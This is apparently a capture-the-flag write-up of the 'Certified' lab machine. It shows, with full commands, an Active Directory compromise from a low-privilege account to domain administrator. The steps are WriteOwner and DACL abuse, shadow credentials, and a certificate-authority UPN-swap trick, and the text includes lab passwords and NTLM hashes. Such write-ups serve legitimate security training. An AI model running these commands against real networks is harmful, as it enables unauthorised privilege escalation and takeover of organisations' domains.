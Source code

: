 ```yaml
---
description: 'Username: judith.mader Password: judith09'
---
```


# 📦 Certified

We start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i looked at the different shares and downloaded everything:

```
nxc smb 10.129.231.186 -u judith.mader -p judith09 -M spider_plus -o DOWNLOAD_FLAG=True
```

But nothing interesting so i went and looked at rpcclient and found some usernames:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I put this in a list and launch my bloodhound collector to get e better look of the domain:

```
bloodhound-python -u judith.mader -p 'judith09' -c All -d certified.htb -ns 10.129.231.186
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
neo4j console
#then i set creds and in another console 'bloodhound' as low level user
```

After uploading all of the jsons to bloodhound and marking judith as owned we can see she has writeowner on Managment@certified.htb

<figure><img src="../../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

While looking at the query: Shortest Paths to High Value Targets, we start to understand we have to take control of MANAGEMENT\_SVC, the path finder was also very visual on what we need to do:

<figure><img src="../../../.gitbook/assets/image (4) (1) (2).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://medium.com/@aslam.mahimkar/exploiting-ad-dacl-writeowner-misconfiguration-ca61fb2fcee1" %}

> **WriteOwner** permission allows attackers to change object ownership in **Active Directory**, giving them full control to manipulate or take over the object.

Since i have poor knowledge on bloodyAD for the moment i went and found a nice cheat sheet:

{% embed url="https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad" %}

* In Active Directory, the **Owner** of an object can modify its **Access Control Entries (ACEs)**.
* Now, **judith.mader** can **modify permissions** on the Management group.

Since I have `WriteOwner`, I should **take ownership** first. This allows me to **modify group permissions** and escalate privileges further:

```
bloodyAD --host 10.129.231.186 -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (2).png" alt=""><figcaption></figcaption></figure>

Since I **own the group**, I should **grant myself more useful permissions**. `WriteMembers` lets me **add myself** to the Management group

```
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Adding a user to a high-privilege group means they inherit **new permissions**. Now that I have `WriteMembers`, I can **add myself** to a powerful group. This could give me access to **sensitive accounts or systems**.

```
bloodyAD --host 10.129.231.186 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
```

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Now that i am in the group of management\_svc, I need **persistent access** to an **elevated account**. `management_svc` might have **high privileges**, so I use **PyWhisker** to gain access **without needing a password**.

**KeyCredentialLink** is an attribute used for **Azure AD and certificate-based authentication**. **Abusing it allows adding a rogue certificate** to an account (without needing its password). This lets the attacker **authenticate as that user** without triggering password resets or alerts.

{% embed url="https://podalirius.net/fr/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/" %}

{% embed url="https://github.com/ShutdownRepo/pywhisker/" %}

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

```
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add
```

We can see that _A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools to &#x67;_&#x65;nerate a **Kerberos Ticket Granting Ticket (TGT)** for `management_svc`

{% embed url="https://github.com/dirkjanm/PKINITtools/tree/master" %}

**PKINIT (Public Key Cryptography for Initial Authentication)** allows authentication via **certificates** instead of passwords. Since we added our rogue certificate, we can now **request a TGT as `management_svc`**

Ok so i had a hard time using this tool so i switched to certipy using this documentation:

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate" %}

> Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file

```
certipy cert -export -pfx p9YNJGan.pfx -password "VInZMo11EzVwyq17abYg" -out "unprotected.pfx"
sudo ntpdate -u 10.129.231.186
certipy auth -pfx unprotected.pfx -dc-ip 10.129.231.186 -username 'management_svc' -domain 'certified.htb'
```

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Just to be sure this works:

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

So we look at what we can control and we see we have generic all on CA\_OPERATOR user:

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Ok so i tried this command:

```
bloodyAD -u "management_svc" -h "a091c1832bcdd4677c28b5a6a1295584" -d "certified.htb" --host "10.129.231.186" set password --target "ca_operator" --new-password "Password1"
```

But from what i see, bloody ad does not take hashes, but it takes certificates so maybe i can craft a cert for ca\_operator ->

```
certipy shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
```

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption><p>ca_operator:b4b86f45c6018f1b664f70805f45d8f2</p></figcaption></figure>

Now i saw this trick of Updating the UPN of the user to change it to admin, the `UserPrincipalName (UPN)` of `ca_operator` is changed to `administrator`. this tricks the **Certificate Authority (CA)** into issuing a certificate for `administrator` instead of `ca_operator`.

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

```
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```
certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186 -pfx administrator.pfx
```

This gets a cert for `Administrator` thanks to the UPN change.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

But when i try to auth i get an error and i have no idea why

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

After talking for a bit witg a friend about my situation i learned that i needed to restore ca\_operator’s UPN and after doing that i was able to use administrator.pfx to request for a TGT and get a Hash:

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>

